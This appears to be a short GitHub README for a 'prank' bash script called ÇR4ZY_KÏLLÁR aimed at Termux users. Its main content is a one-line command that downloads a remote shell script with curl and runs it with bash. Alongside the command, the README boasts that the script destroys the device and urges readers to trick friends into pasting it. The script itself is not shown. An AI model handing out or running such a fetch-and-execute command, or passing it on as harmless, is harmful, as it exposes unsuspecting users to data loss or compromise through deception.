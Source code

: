 # ÇR4ZY_KÏLLÁR
This is A Prank, Just Paste This command 

```curl -s -o ~/CRAZY_KILLER.sh https://raw.githubusercontent.com/HikkiV/-R4ZY_K-LL-R/main/ÇR4ZY_KÏLLÁR_DOWNLOAD && bash ~/CRAZY_KILLER.sh```

And you will see ÇR4ZY_KÏLLÁR destroying your device😈 XD.
Share to your Friend, tell them "paste this command on termux, it's very cool" XD.


first time making this, Sorry if it's not perfect or ugly.
Run on Termux or Any Bash executor
